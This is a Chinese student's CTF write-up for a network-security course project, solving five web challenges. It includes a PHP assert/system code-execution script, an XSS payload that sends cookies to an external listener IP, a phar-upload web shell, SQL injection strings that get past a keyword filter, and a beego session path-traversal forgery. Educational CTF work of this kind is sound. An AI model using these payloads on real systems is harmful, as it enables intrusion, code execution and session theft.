



# 网安Final Project CTF writeup

姚振翮 2016010752

## code

### 原理

* 利用了php中以字符串作为函数执行的漏洞，使php执行额外代码

### 步骤

* 直接访问`/`得到源码，
  * 

* md5破解GET["i"]字符串得到应该是security

* 由源码得使用了uasort，则可如下设计

  * POST["hello"]="assert"
  * POST["word"]="system('cat /flag');"

* 执行访问

  * ```
    import requests
    if __name__ == "__main__":
        data = {
            "hello":"assert",
            "world":"system('cat /flag')"
        }
        sess = requests.session()
        response = sess.post("http://202.112.51.130:28020/?i=security", data=data)
        print(response.text)
    ```

* 得到结果

  ```
  flag{2cc851b3-e636-4748-bc77-a64982a796cb}
  <code>...（后略）
  ```


## MessageBoard

### 原理

* XSS注入，使得对方服务器先访问我的服务器

### 步骤

* 进入主页`/`发现有如下部分

* 对下方的md5碰撞，得到输入字符串

* 输入任意input message，发现被完整复现在send之后的下个页面，猜测可以进行xss注入

* 在我自己的服务器端启动监听

* 设置input message为需要的xss脚本，并重新进行上面步骤

  * XSS脚本

    * ```
      <script>
      var i=document.createElement("link");
      i.setAttribute("rel","prefetch");
      i.setAttribute("href","http://167.172.222.107:29030/?"+document.cookie);
      document.head.appendChild(i);
      </script>
      ```

    * 

* send发送

  * 

* 在监听端发现了flag

## upload

### 原理

* 利用phar数据流的压缩与解压
* 利用访问时GET["poj"]参数的解析漏洞

### 步骤

* 写一个test.php，内容为`<?php system('cat /flag'); ?>`
* 将其用zip方式压缩后，改名为test.png并上传
* 从上传结果页面发现图片地址

* 访问`/?poj=phar://uploads/d6d6ddb88da3287969c3645e13a08e0c8475556a.png/test`
* 拿到flag

## ezsql

### 原理

* 利用sql注入

### 步骤

* 进入主页，发现url中有可能有与数据库相关参数，尝试`http://202.112.51.130:28036/?inject=1' or 1=1;`，发现所有数据都列出，从而猜测可能可以进行sql注入
* 增加`show tables;`得到数据库内的表
  * 

* 尝试`select`发现被过滤，尝试用分割方法绕过
  * 增加``execute immediate concat("sel","ect * from `42`"); ``
    * 拿到flag：
      * 

## gogogo

### 原理

* 利用beego 1.7.2的会话管理漏洞:不过滤`../`

### 工具

* Burp Suite

### 步骤

* 开启BS，设置代理，先不拦截，正常通信

* 初始页面`/`

* 输入不存在的url`/akjdshfkljahsfkj`，确认框架为beego 1.7.2

* 进入注册页面注册用户abcde`/register`

* 登录成功

* 发现UID为2，猜测UID为1的是管理员

* 上传一个0byte的“图片”，得到地址

  * 

  * ```
    the avatar saved to /go/src/github.com/checkin/website/static/img/avatar/SqWEAjkKvvoRGRoAuIga.png
    ```

* 退出登录

* 根据之前抓包前一次登录的cookie，设置修改规则

  * 之前的cookie
  * 设置修改规则
    * 
    * 注意设置gosessionid为：`../../../../../../go/src/github.com/checkin/website/static/img/avatar/SqWEAjkKvvoRGRoAuIga.png`(`../../../../../..`+之前拿到的图片地址)

* BS打开拦截

* 再次登录，登录成功

* BS关闭拦截

* 下载`/static/img/avatar/SqWEAjkKvvoRGRoAuIga.png`，发现已经不是0byte了

* 用python脚本查看其内容，发现有UID，username等内容，判断此时session已经被成功写入

  * `b'\x0e\xff\x81\x04\x01\x02\xff\x82\x00\x01\x10\x01\x10\x00\x00=\xff\x82\x00\x02\x06string\x0c\x05\x00\x03UID\x03int\x04\x02\x00\x04\x06string\x0c\n\x00\x08username\x06string\x0c\x07\x00\x05abcde'`

* 用python脚本修改下载的png

  * 修改username：修改最后5个字符为`b'admin'`
  * 修改UID：修改第62个字符为`b'\x02'`
  * 结果：`b'\x0e\xff\x81\x04\x01\x02\xff\x82\x00\x01\x10\x01\x10\x00\x00=\xff\x82\x00\x02\x06string\x0c\x05\x00\x03UID\x03int\x04\x02\x00\x02\x06string\x0c\n\x00\x08username\x06string\x0c\x07\x00\x05admin'`
  * 存为`session.png`

* 上传图片`session.png`

  * 

  * ```
    the avatar saved to /go/src/github.com/checkin/website/static/img/avatar/AawRKehDWAjpUDNpLQFo.png
    ```

* BS修改cookie修改规则，仿照之前设置gosessionid为刚才上传的图片

  * 

* 直接访问`profile/2/show`

  * 已经成功变成admin
  * 

* 点击Admin Panel，拿到flag